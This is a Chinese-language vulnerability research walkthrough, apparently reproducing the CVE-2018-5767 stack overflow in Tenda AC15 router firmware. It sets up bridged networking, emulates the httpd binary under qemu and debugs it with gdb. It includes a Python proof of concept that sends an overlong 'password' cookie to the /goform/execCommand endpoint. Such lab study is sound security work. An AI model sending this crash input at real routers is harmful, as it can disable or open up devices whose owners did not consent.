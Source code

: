 配置虚拟机网络

安装依赖文件

`sudo apt-get install bridge-utils uml-utilities`

修改 ubuntu主机网络配置，将ubuntu16主机系统中的网络接口配置文件 **/etc/network/interfaces** 修改为如下内容并保存、关闭。

```bash
auto lo
iface lo inet loopback

auto ens33
iface ens33 inet dhcp

#auto br0
iface br0 inet dhcp
  bridge_ports ens33
  bridge_maxwait 0
```

然后重启网络 `sudo /etc/init.d/networking restart`

如果没有出来就 sudo ifup 或者sudo ifdown 几下那个接口就出来了...

# 3.调试

使用qemu-user-static进行调试

在squashfile目录 `sudo chroot . ./qemu -g 12345 bin/httpd`

使用gdb-mulitarch配合**peda插件**开启, 

使用poc.py打到br0端口的ip地址

```python
import requests

ip  = "192.168.139.131"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password="+"A"*501}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

使用gdb查看调用栈

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%209.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%209.png)
